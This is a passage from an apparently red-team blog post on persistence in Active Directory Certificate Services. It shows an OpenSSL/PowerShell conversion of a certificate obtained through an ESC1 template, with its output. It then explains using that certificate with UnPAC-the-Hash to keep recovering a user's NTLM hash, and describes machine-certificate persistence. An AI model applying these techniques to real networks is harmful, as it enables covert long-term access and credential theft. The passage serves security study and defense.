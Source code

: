 
```powershell
C:\Tools\openssl\openssl.exe pkcs12 -in esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc1-DA.pfx

    Enter Export Password:
    Verifying - Enter Export Password:

    Get-PfxCertificate -FilePath .\sora-DA.pfx | select *

    EnhancedKeyUsageList : {Client Authentication (1.3.6.1.5.5.7.3.2), Server Authentication (1.3.6.1.5.5.7.3.1), Smart Card Logon (1.3.6.1.4.1.311.20.2.2), KDC Authentication (1.3.6.1.5.2.3.5)}
    DnsNameList          : {Daniel Moura}
    SendAsTrustedIssuer  : False
    Archived             : False
    Extensions           : {System.Security.Cryptography.Oid, System.Security.Cryptography.Oid, System.Security.Cryptography.Oid, System.Security.Cryptography.Oid...}
    FriendlyName         :
    IssuerName           : System.Security.Cryptography.X509Certificates.X500DistinguishedName
    NotAfter             : 1/10/2026 11:43:37 PM
    NotBefore            : 1/10/2025 11:43:37 PM
    HasPrivateKey        : True
    PrivateKey           : System.Security.Cryptography.RSACryptoServiceProvider
    PublicKey            : System.Security.Cryptography.X509Certificates.PublicKey
    RawData              : {48, 130, 5, 233...}
    SerialNumber         : 54000000150B74ED4CF8ADD060000000000015
    SubjectName          : System.Security.Cryptography.X509Certificates.X500DistinguishedName
    SignatureAlgorithm   : System.Security.Cryptography.Oid
    Thumbprint           : 1DD7B7333ECCF32A83DB5C86CEA9B80B0833C285
    Version              : 3
    Handle               : 2734492773680
    Issuer               : CN=CORP-CA, DC=CORP, DC=LOCAL
    Subject              : CN=Daniel Moura, OU=Usuarios, OU=Inferi, DC=CORP, DC=LOCAL
```

Now, with the certificate in hand, I keep it with me, and for 1 year, I will have this persistence through the user. By combining it with UnPAC-The-Hash, you will always be able to retrieve the current NTLM hash of that user as long as the certificate remains valid 😏.

In my context, I spoke about a vulnerable template, but ideally, as I mentioned above, you would issue this certificate from a standard ADCS template, like the **User** template. Next, we will look at how to implement persistence on machines.

# Persistence by machine certificate

Machine persistence with certificates follows the same concept as before, but instead of needing a high-privilege user, you need to be SYSTEM on the machine. Machine persistence also has its advantages, such as:
- The certificate lasts for 1 year and can be renewed when it is about to expire.
- Even if the computer changes its password, the certificate will still work.
- Even if the computer is reformatted, if it returns to the network with the same name, the certificate will still be valid (THIS IS UNREAL MICROSOFT LMFAAAO).
    * If there is a change in the machine's SID, then the certificate becomes invalid. If the machine is formatted normally, it will have the same SID; if it is formatted and there is a change in hardware, the SID will change.
    * However, with new updates to Certipy/fy, you can specify the SID you want to use in the certificate.
